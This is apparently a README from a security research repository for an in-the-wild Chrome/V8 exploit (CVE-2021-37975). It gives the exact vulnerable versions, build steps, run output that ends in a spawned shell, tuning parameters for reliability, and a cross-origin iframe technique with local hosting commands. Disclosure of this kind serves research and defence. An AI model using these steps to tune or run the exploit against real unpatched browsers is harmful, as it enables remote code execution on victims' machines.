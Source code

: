 ## Chrome in-the-wild bug CVE-2021-37975

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit `poc.js` is tested on `v8` version 9.4.146.16 (commit `452f57b`), which is the version shipped with Chrome 94.0.4606.61, the one before the bug was fixed, on Ubuntu 20.04. It is tested on two different desktop devices with different specs.

To test, check out `v8` at commit `452f57b` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
fail to find object address.
fail to find object address.
fail to find object address.
fetch failed
fail to find object address.
fail to find object address.
fetch failed
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
found instance address: 0x81d40f5 at index: 0
array address: 0x804294d
array element address: 0x8042935
fake array at: 8 index: 0
rwx address at: 0x28c7931bc000
fake array at: 8 index: 1
rwx address at: 0x28c7931bc000
shellArray addr: 0x8048d75
$ 
```

Shell code and some offsets may need changing on other platforms.

The exploit is fairly reliable, (> 80% success rate on the two tested devices). The variable `gcSize` may need changing depending on the device, and the variable `mapAddr` also depends on the version of v8 (it is an offset). Changing the variable `sprayParam` may also improve the reliability. The current parameter seems to give reasonable reliability across the two devices tested. The `gcSize` parameter should be ok for desktop devices, but may need changing for devices with low memory (e.g. mobile)

The Chrome poc are the files `chrome_poc_parent.html` and `chrome_poc_child.html`. It is tested with Linux build 94.0.4606.61 (commit `c3f0a75`) on Ubuntu 20.04, with the following parameters:

```
is_debug = false
symbol_level = 2
blink_symbol_level = 2
dcheck_always_on = false
is_official_build = true
chrome_pgo_phase = 0
```

To build this, I have to comment out part of a script `chrome/browser/resources/tools/optimize_webui.py` to fix the build:

```
@@ -178,16 +178,16 @@ def _bundle_v3(tmp_out_dir, in_path, out_path, manifest_out_path, args,
                                             manifest_out_path)
   assert len(generated_paths) == len(bundled_paths), \
          'unexpected number of bundles - %s - generated by rollup' % \
          (len(generated_paths))
 
-  for bundled_file in bundled_paths:
-    with open(bundled_file, 'r') as f:
-      output = f.read()
-      assert "<if expr" not in output, \
-          'Unexpected <if expr> found in bundled output. Check that all ' + \
-          'input files using such expressions are preprocessed.'
+#  for bundled_file in bundled_paths:
+#    with open(bundled_file, 'r') as f:
+#      output = f.read()
+#      assert "<if expr" not in output, \
+#          'Unexpected <if expr> found in bundled output. Check that all ' + \
+#          'input files using such expressions are preprocessed.'
 
   return bundled_paths
 
 def _optimize(in_folder, args):
   in_path = os.path.normpath(os.path.join(_CWD, in_folder)).replace('\\', '/')
```

This part seems to be doing some sanity checks of some generated config files related to webui, so I don't expect it to affect the exploit.

The Chrome exploit should be 100% reliable by using different origin `iframe` to avoid crashing the parent frame. (Idea similar to the one in "Making a Stealth Exploit by abusing Chrome's Site Isolation" in [this article](https://blog.exodusintel.com/2019/01/22/exploiting-the-magellan-bug-on-64-bit-chrome-desktop/?fbclid=IwAR0WiWjsUnun8AuipENIUCMwTvWl35I7rAgsTflQTecmazElNoCAYvm0BsA) of Ki Chan Ahn, but on a smaller scale) The parent frame will reset the child frame every 5 seconds and change its origin to make sure it starts fresh, during which it'll print out `resetChild` on the page. It should not take too many attempts to succeed and will pop `xcalc` on Ubuntu. To test it, host these pages at `127.0.0.1`, `127.0.0.2` and `127.0.0.3`:

```
python3 -m http.server --bind 127.0.0.1
python3 -m http.server --bind 127.0.0.2
python3 -m http.server --bind 127.0.0.3
```

Then open `localhost:8000/chrome_poc_parent.html` on Chrome built with the above instructions and wait. It should pop `xcalc` within a few trials.
